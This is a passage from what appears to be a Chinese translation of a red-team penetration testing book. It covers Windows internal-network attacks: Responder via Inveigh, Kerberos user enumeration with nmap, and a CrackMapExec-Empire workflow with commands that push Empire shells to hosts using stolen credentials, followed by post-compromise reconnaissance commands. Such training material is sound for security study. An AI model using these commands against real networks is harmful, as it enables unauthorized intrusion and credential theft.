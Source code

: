 ### PowerShell Responder

一旦我们攻击进了 Windows 系统，我们就可以在受害者机器上使用 PowerShell 进行 Responder 攻击。原始 Responder 的两个功能都可以通过以下两个工具执行：

- Inveigh - https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
- Inveigh-Relay

更简单的是，这一切都已经集成在 Empire 中了。

## 没有凭据的用户枚举

一旦进入了内网中，我们可以使用 Responder 来获得凭证或 shell，但有时也会发现同时启用 SMB 签名和破解 NTLMv2 SSP 是没有实质进展的。那就是我们退一步，从更基础的开始。在不主动扫描网络的情况下，我们需要获得一个用户列表（可能是用于密码爆破，甚至是内网钓鱼）。 

一种选择是开始针对域控制器枚举用户。如果是早些时候（回到2003年），我们可以尝试执行 RID 循环来获得所有用户帐户的列表。虽然现在不可用了，但爆破帐户还有其他选择。一种选择就是利用 Kerberos：

- nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=“cyberspacekittens.local”,userdb=/opt/userlist.txt <Domain Controller IP>

![](img/chapter_4/4-9.png)

我们将需要提供一个要测试的用户名列表，但是由于我们只是查询 DC（域控制器）而没有对其进行身份验证，因此通常此行动不会被检测。现在，我们可以采用这些用户帐户，并再次开始密码猜解!

## 使用 CrackMapExec（CME）扫描网络

如果我们还没有成功入侵进一个系统，但是我们确实通过 Responder、错误配置的 Web 应用程序、暴力破解或通过打印机获得了登录凭证，那么我们可以尝试扫描网络，看看这个帐户可以登录到哪里。使用像 CrackMapExec（CME）这样的工具进行简单的扫描可以帮助找到内部网络上的初始入口点。

过去，我们使用 CME 扫描网络、通过网络上的 SMB 进行标识/身份验证、对许多主机远程执行命令，甚至通过 Mimikatz 提取明文凭证。Empire 和 CME 都拥有了一些新特性，我们可以利用 Empire 的 REST 特性。在下面的场景中，我们将使用其 REST API 启动 Empire，在 CME 中配置密码，让 CME 连接到 Empire，使用我们拥有的单一凭证扫描网络，最后，如果成功完成身份验证，则自动将 Empire 的 payload 推送到远程受害者的系统。如果你有一个 helpdesk 或高权限帐户，那就准备好加载 Empire shell 吧！

- 启动 Empire 的 REST API 服务器
  - cd /opt/Empire
  - ./empire --rest --password ‘hacktheuniverse’
- 更改 CrackMapExec 密码
  - 打开 /root/.cme/cme.conf
  - password=hacktheuniverse
- 运行 CME 来生成 Empire shells
  - cme smb 10.100.100.0/24 -d ‘cyberspacekittens.local’ -u ‘<username>’ -p ‘<password>’ -M empire_exec -o LISTENER=http

![](img/chapter_4/4-10.png)

![](img/chapter_4/4-11.png)

## 在攻陷你的第一台机器之后

当你通过社会工程、drop box、Responder、攻击打印机或通过其他攻击获得对主机的访问权限后，下一步要做什么？这是一个非常重要的问题。

在过去，你需要做的一切，是了解你身在何处和周边的网络环境。我们可能首先运行类似于“netstat -ano”的命令来查找受害者的服务器、域和用户的 IP 范围的位置。我们还可以运行命令，如 `ps` 或 `sc queryex type= service state= all | find  “_NAME”` 列出所有正在运行的服务，并寻找杀毒软件或其他主机基础保护。下面是一些我们最初可能运行的其他示例命令：
